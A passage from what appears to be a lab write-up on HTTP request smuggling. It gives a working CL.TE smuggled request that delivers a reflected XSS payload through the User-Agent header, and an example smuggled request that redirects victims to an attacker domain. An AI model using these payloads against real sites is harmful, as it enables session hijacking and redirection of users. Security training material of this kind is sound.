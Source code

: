 The next user's request will be appended to the smuggled request, and they will receive the reflected XSS payload in the response. 

### PRACTITIONER Lab: Exploiting HTTP request smuggling to deliver reflected XSS
Lab's descripntion:
The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

And we make the req:
```bash
GET /post?postId=2 HTTP/2
Host: 0aee008704b2c0a581c04dd300340007.web-security-academy.net
Cookie: session=f5h9XHkZLrStJx4ZQPHjKvlTqcnYZHZ1
User-Agent: HERERERERERERER
```

The value of the `User-Agent` is reflected on the page:
```bash
<input required type="hidden" name="userAgent" value="HERERERERERERER">
```

So to solve the lab:
```bash
POST / HTTP/1.1
Host: 0aee008704b2c0a581c04dd300340007.web-security-academy.net
Cookie: session=f5h9XHkZLrStJx4ZQPHjKvlTqcnYZHZ1
Content-Length: 79
Transfer-Encoding: chunked

0

GET /post?postId=9 HTTP/1.1
User-Agent: "><script>alert(1)</script>
Foo: X
```

### Using HTTP request smuggling to turn an on-site redirect into an open redirect
Many applications perform on-site redirects from one URL to another and place the hostname from the request's Host header into the redirect URL. An example of this is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash:
```bash
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

This behavior is normally considered harmless, but it can be exploited in a request smuggling attack to redirect other users to an external domain. For example: 
```bash
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```
